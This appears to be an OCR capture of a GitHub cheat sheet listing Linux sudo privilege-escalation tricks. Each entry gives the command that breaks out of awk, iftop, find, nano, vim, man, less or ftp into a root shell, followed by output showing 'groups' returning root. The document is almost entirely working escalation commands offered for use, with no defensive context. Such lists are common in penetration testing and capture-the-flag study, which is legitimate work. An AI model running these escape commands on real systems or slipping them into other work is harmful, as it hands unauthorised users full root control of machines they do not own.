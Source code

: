 ```
$ sudo awk 'BEGIN {system("/bin/sh")}'

sh-4.1# groups
root
```
1. /usr/sbin/iftop
```
$ sudo iftop
!/bin/sh

sh-4.1# groups
root
```
2. /usr/bin/find
```
$ sudo find . -exec /bin/sh \; -quit

sh-4.1# groups
root
```
3. /usr/bin/nano
```
$ sudo nano
^R^X
reset; sh 1>&0 2>&0
```
4. /usr/bin/vim
```
$ sudo vim -c ':!/bin/sh'

sh-4.1# groups
root
```
OR,
```
$ sudo vim 

:!/bin/sh
sh-4.1# groups
root
```
5. /usr/bin/man
```
$ sudo man <anycommand>

!/bin/sh

sh-4.1# groups
root
```
7. /usr/bin/less
```
$ sudo less <any file>

!/bin/sh

sh-4.1# groups
root
```
8. /usr/bin/ftp
```
$ sudo ftp
ftp> !/bin/sh
sh-4.1# groups
root
```